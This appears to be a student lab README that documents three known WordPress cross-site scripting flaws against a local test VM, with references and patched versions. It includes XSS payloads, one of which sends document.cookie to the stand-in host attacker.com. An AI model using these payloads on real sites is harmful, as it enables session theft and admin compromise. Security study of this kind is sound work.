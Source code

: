 # Week-7-Project-WordPress-vs.-Kali


[!] Title: WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS) <br>
    Reference: https://www.exploit-db.com/exploits/36844/
[i] Fixed in: 4.2.1
If triggered by a logged-in administrator, under default settings the attacker can leverage the vulnerability to 
execute arbitrary code on the server via the plugin and theme editors.
  <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px x
<img src="https://i.imgur.com/kKKLoZh.gif" width="800">


[!] Title: WordPress <= 4.2.3 - Widgets Title Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8131
[i] Fixed in: 4.2.4
Top 10 2013-A3-Cross-Site Scripting (XSS)
https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS)
If the attacker could trick the admin to post this as a comment:
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi ?foo='+document.cookie</script>'.") + "'>";
we would get a working XSS exploit that would forward wpdistillery.vm visitors to attacker.com
<img src="https://i.imgur.com/3mrNRXU.gif" width="800">


[!] Title: WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
    Reference: https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html
This issue was patched in WordPress 4.7.3.
If the attacker could trick the admin to post this as a comment:
<embed src='https://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'></embed>
we could get a stored XSS exploit.
<img src="https://i.imgur.com/msRn9YG.gif" width="800">

